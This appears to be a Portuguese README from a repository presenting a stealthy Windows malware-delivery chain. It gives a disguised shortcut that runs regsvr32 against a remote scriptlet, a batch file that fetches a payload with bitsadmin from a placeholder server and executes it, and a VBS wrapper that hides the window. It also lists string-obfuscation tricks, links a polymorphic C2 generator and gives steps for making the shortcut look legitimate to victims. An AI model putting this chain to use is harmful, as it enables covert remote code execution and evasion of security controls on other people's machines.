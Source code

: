 # Técnica de Execução Stealth para Scripts PowerShell

Este repositório demonstra técnicas avançadas para executar scripts PowerShell de maneira furtiva, contornando controles de segurança comuns. A implementação utiliza binários legítimos do Windows, transferência de arquivos em segundo plano e ofuscação para evitar detecção.

## Visão Geral

Esta técnica pode ser implementada de várias formas, incluindo o uso do `regsvr32.exe` para scriptlets (.sct) ou utilizando BITS (Background Intelligent Transfer Service), um serviço legítimo do Windows usado para downloads em segundo plano.

## Gerar o C2 em PS1

https://github.com/ticofookfook/C2-polimorfico

## Componentes e Técnicas

### 1. Técnica baseada em regsvr32 (SCT)

O ponto de entrada é um atalho do Windows com as seguintes propriedades:

```powershell
Destino: %windir%\System32\regsvr32.exe
Argumentos: /s /u /i:http://[ip-servidor]/[nome-script].sct scrobj.dll
Ícone: %SystemRoot%\System32\devmgr.dll,0
```

O arquivo SCT (Scriptlet) contém código JScript ofuscado com múltiplas técnicas de evasão.

## 2. Execução via script BAT e VBS

### Criar arquivo batch

```batch
@echo off
rem Executar silenciosamente
bitsadmin /transfer myDownloadJob /download /priority high http://[ip-servidor]/[nome-script].sct "%TEMP%\data.tmp" > nul
regsvr32 /s /u /i:"%TEMP%\data.tmp" scrobj.dll
exit
```

### Criar script VBS para execução oculta

```vbs
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "cmd.exe /c ""%TEMP%\config.bat""", 0, False
```

## 3. Técnicas de Evasão

A implementação usa múltiplas camadas de evasão:

- **Inversão de Strings**: Strings como "powershell.exe" são armazenadas invertidas.
- **Conversão de Código de Caracteres**: Strings críticas construídas a partir de códigos ASCII.
- **Expansão de Variáveis de Ambiente**: Construção dinâmica de caminhos do sistema.
- **Uso de Serviços Legítimos**: BITS é um componente do Windows usado para Windows Update.

## 4. Cadeia de Execução

A cadeia completa de execução usando BITS:

1. O usuário clica no atalho.
2. `wscript.exe` executa o `.vbs` em segundo plano.
3. O `.vbs` chama `cmd.exe` para rodar o `.bat` sem exibição de janela.
4. O batch executa `bitsadmin` para baixar o payload.
5. `regsvr32` carrega o payload baixado.
6. O conteúdo é executado sem criar janelas visíveis.

## Uso

1. Hospede o arquivo `.sct` em um servidor HTTP.
2. Hospede seu payload PowerShell como `teste.ps1` no mesmo servidor.
3. Crie o atalho para o script VBS em vez do BAT.
4. O ícone e o nome do atalho podem ser personalizados para parecerem legítimos.

## Detalhes Técnicos

### BITSAdmin

- Ferramenta nativa do Windows para gerenciar o serviço BITS.
- Raramente bloqueada por soluções de segurança por ser essencial para o Windows Update.
- Permite downloads em segundo plano com alta confiabilidade.

### regsvr32

- `/s`: Execução silenciosa (sem diálogos).
- `/u`: Desregistra componente (usado como parte da técnica).
- `/i:<URL>`: Especifica o script a ser carregado.
- `scrobj.dll`: O Script Component Runtime que processa o scriptlet.

## Considerações de Segurança

Esta técnica é eficaz em contornar controles de segurança porque:

1. Utiliza binários confiáveis do Windows (técnica *living-off-the-land*).
2. BITS é um serviço essencial raramente bloqueado.
3. Comandos fragmentados e ofuscados previnem detecção.
4. A execução ocorre totalmente em segundo plano sem janelas visíveis.
5. Utiliza métodos de transferência legítimos usados pelo próprio Windows.
